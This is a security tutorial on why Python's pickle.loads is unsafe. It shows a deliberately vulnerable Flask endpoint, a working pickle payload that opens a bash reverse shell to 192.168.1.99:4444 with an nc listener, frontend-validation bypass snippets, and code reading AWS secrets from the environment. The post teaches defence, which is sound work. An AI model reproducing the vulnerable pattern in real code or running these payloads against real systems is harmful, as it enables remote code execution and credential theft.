




# A Jar Full of Trouble: Why `pickle.loads()` Is Inherently Insecure



## What Is Pickle and Why It's Dangerous

The python `pickle` library is an object serializer. It takes input and stores it perfectly and, when unserialized, returns it exactly how you sent it. This can be great in some cases, storing program state, caching, etc.

However, it has no filter, and will return exactly what you give it. The Python [pickle docs note](https://docs.python.org/3/library/pickle.html):

*"Warning: The pickle module is not secure. Only unpickle data you trust.*

*It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with."*

So yeah, let's do that.


## Setting the Trap: A Minimal Flask App

We are going to set up a minimal Docker app, running a minimal Flask app form; served by gunicorn. This could be talking to anything on the backend, or sending data to redis, a db, etc. But for our purposes we aren't going to show that.
Our project looks like this:

```.
├── app
│   ├── app.py
│   └── templates
│       └── form.html
├── docker-compose.yml
├── Dockerfile
├── .env
└── requirements.txt
```
And our app:

```python
from flask import Flask, request
import pickle, base64

app = Flask(__name__)

@app.route('/submit', methods=['POST'])
def submit():
    payload = request.form['payload']
    decoded = base64.b64decode(payload)
    obj = pickle.loads(decoded)  #<--Remote code execution
    return "Unpickled: {}".format(obj)
```

## The Exploit: From Payload to Shell

You can craft a payload like this:

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ("bash -i >& /dev/tcp/192.168.1.99/4444 0>&1",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload).decode())
```

Then paste the result into the web form and receive a reverse shell.

Example here, I make a listener on my remote machine:

```nc -nvlp 4444```

Then trigger my payload and get my shell:



## Why Pydantic Can’t Save You

```python
decoded = base64.b64decode(payload)
obj = pickle.loads(decoded)  # RCE happens here
validated = PydanticModel(**obj)  # too late
```

By the time Pydantic sees the data, the damage is done, this gets me the same shell, root user, etc. 


## Container Hardening That (Kinda) Helps

Use multi-stage builds, non-root users, `cap_drop`, and `read_only` flags in your Dockerfile and `docker-compose.yml`.

```yaml
cap_drop:
  - ALL
read_only: true
security_opt:
  - no-new-privileges:true
```

But remember: this only minimizes damage **after compromise**.

You can see there is a no root, and some other restrictions here, but I still have a shell and can either pivot or escalate here:



## Frontend Validation is Useless

JavaScript can be bypassed in 3 seconds:

```js
document.forms[0].payload.value = "malicious_base64_pickle";
document.forms[0].submit();
```


Or just remove validation entirely:

```js
document.forms[0].removeAttribute("onsubmit");
```

## Leaking `.env` Secrets

In addition to an RCE, and attacked could also use:


```python
import os
print(os.environ.get("AWS_SECRET_ACCESS_KEY"))
```
To get API/ENV keys which could give them more access into the environment. 

## TL;DR

- Never `pickle.loads()` untrusted input. **Ever.**
- Schema validation only helps **before** deserialization, not after.
- Container hardening reduces impact, not root cause.
- JavaScript validation is decoration.
- Secrets in `.env` are not safe if your container is compromised.

---
